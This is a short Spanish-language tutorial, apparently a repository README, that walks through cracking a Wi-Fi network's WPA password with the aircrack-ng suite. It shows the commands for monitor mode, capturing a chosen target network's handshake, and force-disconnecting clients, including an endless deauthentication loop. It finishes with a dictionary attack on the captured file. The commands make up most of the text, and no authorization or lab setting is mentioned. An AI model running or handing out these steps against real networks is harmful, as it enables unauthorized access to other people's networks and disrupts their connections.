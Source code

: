 ## Inicio

Abrir terminal 
Logearse sudo
```airmon-ng``` (lista todas las tarjetas que soportan modo monitor)

```airmon-ng start wlan0```

otra terminal, logearse sudo
```airodump-ng wlan0mon```

Muestra las redes inhalambricas y los dispositivos conectados a los access points
Elegimos a red a atacar

ESSID Nombre de la red
CH Channell
BSSID Nro Mac address

Nueva terminal sudo bash
```airodump-ng -c 11 --bssid ee:ee:ee:ee:ee -w /home/kali/claves wlan0mn```  // queda corriendo en una terminal para esperar handshake
               !            !                   !
               !            !                   -- Ruta al archivo donde vamos a escribir el escaner
               !            !
               !            ---------------------- Bssid del router
               !
               ----------------------------------- Channel

Monitorea la red seleccionada esperando que un dispositivo se conecte al router para que intercambien el handshake

Comprobamos que en la carpeta se crearon los archivos con el nombre Clave con la informacion que necesitamos

Nueva terminal sudo bash (utilizar una de ambas)
```aireplay-ng -0 2 -a ee:ee:ee:ee:ee -c dd:dd:dd:dd:dd wlan0mon
aireplay/ng --deauth 0 -a ee:ee:ee:ee:ee wlan0mon```  // esta desautentica eternamente hasta que se para 

nueva terminal sudo bash
```aircrack-ng /home/kali/*.cap -w /ruta/al/diccionari.txt // ruta al archivo cap y ruta al archivo del diccionario```


Horas!
